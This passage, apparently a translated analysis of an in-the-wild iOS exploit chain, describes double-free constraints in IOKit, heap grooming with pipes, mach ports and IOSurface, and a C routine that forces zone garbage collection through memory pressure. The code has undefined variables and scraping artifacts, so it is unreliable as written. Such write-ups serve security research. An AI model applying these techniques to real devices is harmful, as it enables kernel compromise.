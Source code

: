 请注意，安全地触发重复释放有一些限制。特别是，如果第一个指针值不为NULL，并且size_in_pages字段不为0，那么将会在IOMemoryDescriptor上调用虚拟方法。<br>
该条目每次解除分配时都会从列表中取消链接，因此需要设置prev和next指针才能生存。（NULL是一个合适的安全值。）

攻击者像往常一样，通过增加打开文件描述符的限制并创建0x800管道来开始漏洞利用。他们还分配了1024个早期端口以及一个IOSurface。这次，IOSurface将像在iOS漏洞利用链#1中一样，用作修饰OSObjects的方法。

将分配4个mach端口（接收1到4），然后强制区域GC。



## 击破mach_zone_force_gc以消除漏洞缓解

Apple完全删除了mach_zone_force_gc主机端口MIG方法，因此现在没有直接强制区域GC的方法。

区域GC仍然是必要的功能，因此我们需要更具创造性。区域GC仍然会在内存空间接近不足时发生，因此要导致区域GC，必须先导致内存压力。攻击者是这样实现的：

```
#define ROUND_DOWN_NEAREST_1MB_BOUNDARY(val) ((val &gt;&gt; 20) &lt;&lt; 20)

void force_GC()
`{`

  long page_size = sysconf(_SC_PAGESIZE);
  target_page_cnt = n_actually_free_pages();

  size_t fifty_mb = 1024*1024*50;

  size_t bytes_size = (target_page_cnt * page_size) + fifty_mb;
  bytes_size = ROUND_DOWN_NEAREST_1MB_BOUNDARY(bytes_target)

  char* base = mmap(0,
                    bytes_size,
                    PROT_READ | PROT_WRITE,
                    MAP_ANON | MAP_PRIVATE,
                    -1,
                    0);
  if (!base || base == -1) `{`
    return;
  `}`

  for (i = 0; i &lt; bytes_size / page_size; ++i ) `{`
     // touch each page
    base[page_size * i] = i;
  `}`
  n_actually_free_pages();

  // wait for GC...
  sleep(1);

  // remove memory pressure
  munmap(base, bytes_target);
`}`
```
